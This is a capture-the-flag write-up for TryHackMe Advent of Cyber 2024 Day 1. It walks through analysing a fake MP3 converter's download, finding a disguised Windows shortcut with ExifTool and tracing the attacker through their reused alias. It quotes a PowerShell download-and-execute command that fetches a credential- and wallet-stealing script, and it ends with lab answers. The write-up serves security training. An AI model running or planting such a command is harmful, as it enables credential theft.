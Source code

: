 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge

## Objectives 🎯

Day 1 begins the **Advent of Cyber 2024** with an exciting challenge to investigate a suspicious YouTube to MP3 converter website. The focus is on:
1. Analyzing downloaded files to uncover malicious behavior.
2. Investigating embedded metadata and suspicious scripts.
3. Tracing the attacker’s digital breadcrumbs to expose their OPSEC mistakes.

## Steps 🚀

### Step 1: Investigating the Website
1. **Access the website:**  
   Hosted at `10.10.200.221`, the site appeared to be a standard YouTube to MP3 converter.
2. **Download the files:**  
   I entered a YouTube link, which downloaded a `download.zip` file containing:
   - **`song.mp3`**: A legitimate audio file.
   - **`somg.mp3`**: A suspiciously named file.

### Step 2: File Analysis Using ExifTool
- **Analyzing `song.mp3`:**  
  Running `exiftool song.mp3` revealed nothing unusual—just a standard MP3 file.
- **Analyzing `somg.mp3`:**  
  Running `exiftool somg.mp3` revealed:
  - It was a Windows Shortcut file (`.lnk`), not an MP3.
  - Metadata contained an embedded PowerShell command:
    ```
    -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
    ```
  This command bypasses PowerShell execution policies, downloads a malicious script, and executes it.

### Step 3: Opening the Embedded URL
- **Inspect the URL:**  
  The URL hosted a PowerShell script designed to steal:
  - Cryptocurrency wallet files.
  - Browser credentials.
- **C2 Server:**  
  Stolen data was sent to a Command and Control (C2) server controlled by the attacker.

### Step 4: Tracing the Attacker on GitHub
- **Signature in Script:**  
  The script contained the signature:
  ```
  "Created by the one and only M.M."
  ```
- **Search Results:**  
  Searching GitHub for `"Created by the one and only M.M."` led to:
  - A repository owned by **M.M.**
  - Comments tying their account to malicious activity.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures
1. **Reused Aliases:**  
   The attacker used the same alias ("M.M.") across platforms, making them easier to track.
2. **Identifiable Metadata:**  
   Including a signature in the script created a direct link to their identity.
3. **Public Interactions:**  
   GitHub comments connected their profile to the malicious activity.

### Tools and Techniques 🛠️
1. [ExifTool](https://exiftool.org/) – Extracted metadata to uncover the embedded PowerShell command.
2. **Browser Inspection:** Investigated URLs to find malicious scripts.
3. [GitHub Search](https://github.com/) – Traced the attacker through their digital breadcrumbs.

## Final Thoughts 🎁

Day 1 was an excellent introduction to metadata analysis and attacker investigation. Tracking down M.M. using GitHub highlighted how OPSEC failures can leave attackers exposed. This challenge provided a perfect mix of technical analysis and detective work to kick off the Advent of Cyber!

### Answers ✅
1. **What file was harmless?**  
   **Answer:** `song.mp3`
2. **What was the embedded PowerShell command used for?**  
   **Answer:** Bypassed execution policies, downloaded a malicious script, and executed it.
3. **What is the attacker’s alias?**  
   **Answer:** `M.M.`

## Table of Contents 📚

- [Main Page](README.md)
- **Day 1: OPSEC Challenge**
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [More Days to Come!](#)
```

